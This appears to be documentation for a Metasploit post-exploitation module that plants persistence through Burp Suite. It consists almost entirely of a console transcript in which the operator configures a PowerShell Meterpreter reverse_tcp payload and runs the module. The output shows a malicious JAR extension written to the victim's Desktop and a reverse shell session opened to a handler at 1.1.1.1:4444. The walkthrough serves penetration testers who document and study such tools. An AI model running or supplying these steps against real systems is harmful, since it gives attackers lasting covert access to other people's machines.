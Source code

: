 Burp Extension
```
[msf](Jobs:0 Agents:1) exploit(multi/script/web_delivery) > use exploit/multi/local/burp_extension_persistence 
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
[*] Using action precompiled - view all 2 actions with the show actions command
[msf](Jobs:0 Agents:1) exploit(multi/local/burp_extension_persistence) > set target 2
target => 2
[msf](Jobs:0 Agents:1) exploit(multi/local/burp_extension_persistence) > set action precompiled
action => precompiled
[msf](Jobs:0 Agents:1) exploit(multi/local/burp_extension_persistence) > set payload cmd/windows/powershell/meterpreter/reverse_tcp
payload => cmd/windows/powershell/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:1) exploit(multi/local/burp_extension_persistence) > set writabledir c:\\users\\windows\\Desktop\\
writabledir => c:\users\windows\Desktop\
[msf](Jobs:0 Agents:1) exploit(multi/local/burp_extension_persistence) > exploit
[*] Powershell command length: 4153
[*] Exploit running as background job 8.
[*] Exploit completed, but no session was created.
[msf](Jobs:1 Agents:1) exploit(multi/local/burp_extension_persistence) > 
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Found config: C:///Users//windows///Desktop//burp_user_settings.json
[!] The service is running, but could not be validated. No config file listed, only writing plugin to disk
[*] Using extension name: EKHhAH9U
[*] Creating JAR file
[*] Writing malcious extension to disk: c:\users\windows\Desktop\/EKHhAH9U.jar
[+] Extension enabled, waiting for Burp to open with the config.
[*] Sending stage (177734 bytes) to 2.2.2.2
[*] Meterpreter session 5 opened (1.1.1.1:4444 -> 2.2.2.2:51899) at 2025-01-21 15:17:54 -0500
```